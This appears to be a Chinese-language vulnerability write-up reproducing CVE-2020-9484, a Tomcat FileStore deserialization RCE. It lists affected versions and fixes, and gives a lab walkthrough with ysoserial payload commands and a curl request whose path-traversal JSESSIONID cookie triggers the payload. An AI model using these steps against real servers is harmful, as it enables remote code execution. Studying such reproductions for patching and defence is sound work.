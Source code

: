 # CVE-2020-9484:Apache Tomcat代码问题漏洞
## 一、漏洞介绍
北京时间2020年05月20日，Apache官方发布了 Apache Tomcat 远程代码执行 的风险通告，该漏洞编号为 CVE-2020-9484。

Apache Tomcat 是一个开放源代码、运行servlet和JSP Web应用软件的基于Java的Web应用软件容器。当Tomcat使用了自带session同步功能时，使用不安全的配置（没有使用EncryptInterceptor）会存在反序列化漏洞，攻击者通过精心构造的数据包， 可以对使用了自带session同步功能的Tomcat服务器进行攻击。

这次是由于错误配置和 org.apache.catalina.session.FileStore 的 LFI 和反序列化漏洞引起的 RCE。

当配置了 org.apache.catalina.session.PersistentManager 并且使用 org.apache.catalina.session.FileStore 来储存 session 时, 用户可以通过 <strong><font color='red'>org.apache.catalina.session.FileStore 的一个 LFI 漏洞来读取服务器上任意以 .session结尾的文件。然后通过反序列化来运行 .session 文件。</font></strong>


默认情况是使用 org.apache.catalina.session.StandardManager, 将 session储存到内存，而 PersistentManager 会将不常用的 session swap out, 从而减少内存占用。

参考：https://www.safedog.cn/news.html?id=4456

## 二、影响版本

Apache Tomcat: 10.0.0-M1 to 10.0.0-M4

Apache Tomcat: 9.0.0.M1 to 9.0.34

Apache Tomcat: 8.5.0 to 8.5.54

Apache Tomcat: 7.0.0 to 7.0.103

## 三、先决条件

1. PersistentManager 使用了FileStore
2. 攻击者能够上传带有任意内容的文件，可以控制文件名并知道上传文件的位置
3. 类路径中有一些小工具可用于Java反序列化攻击，如groovy-2.3.9（创建文件）、CommonsCollections2（弹出计算器）

## 四、漏洞复现

需要环境：虚拟机、kali系统

安装tomcat需要java环境，实验时请自行安装

#### 下载安装tomcat，安装在/usr/local/tomcat

```bash
cd /usr/local
mkdir tomcat
wget https://repo1.maven.org/maven2/org/apache/tomcat/tomcat/10.0.0-M4/tomcat-10.0.0-M4.tar.gz
tar -zxvf tomcat-10.0.0-M4.tar.gz
```
#### 修改配置文件

注：若配置文件中无此配置，则说明不存在此漏洞
```bash
cd apache-tomcat-10.0.0-M4/conf
vim context.xml
```
添加下列配置
```bash
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore" directory="/tomcat/sessions/"/>
</Manager>
```
![1](./images/1.png)

#### 下载反序列化相关工具

1. groovy

`wget https://repo1.maven.org/maven2/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar`

将groovy-2.3.9.jar 放入/usr/local/tomcat/lib目录下（ysoserial使用Groovy1命令需要的插件）

![2](./images/2.png)

2. ysoserial

`git clone https://github.com/frohoff/ysoserial.git`

#### 启动tomcat

```bash
cd ~/apache-tomcat-10.0.0-M4/bin
./catalina.sh start
```
![3](./images/4.png)

#### 攻击过程

1. 生成payload

`java -jar ysoserial.jar Groovy1 "touch /tmp/2333" > /tmp/test.session`

![4](./images/3.png)

2. 使用test.session

在浏览器抓取首页的包添加`Cookie: JSESSIONID={ ../../../../../tmp/test }`
{}中为test.session路径

目标是在服务器上执行命令`touch /tmp/2333`，<font color='red'>假设 .session文件已经被上传到服务器的已知位置。</font>

 linux

`curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../tmp/test'`

![5](./images/5.png)
此处网上复现皆为127.0.0.1，原因是<font color='red'>这里主要是 FileStore 的 LFI 漏洞可以反序列化任意路径上的 .session 文件, 如果同时存在 文件上传漏洞的话就是 RCE 了</font>

#### CommonsCollections2

CommonsCollections2不用下载
`java -jar ysoserial.jar CommonsCollections2  "{ /Applications/Calculator.app/Contents/MacOS/Calculator }" > /tmp/test2.session`
![6](./images/6.png)

## 五、修复建议

修复方式就是升级,或者配置WAF，过滤掉../之类的字符串，或者不使用 FileStore

## 六、参考文章

1. https://www.freebuf.com/articles/web/242782.html
2. https://www.safedog.cn/news.html?id=4456
3. https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/
4. https://y4er.com/posts/cve-2020-9484-tomcat-session-rce/#%E9%85%8D%E7%BD%AEtomcat%E8%B0%83%E8%AF%95%E7%8E%AF%E5%A2%83
5. https://github.com/masahiro331/CVE-2020-9484   docker环境
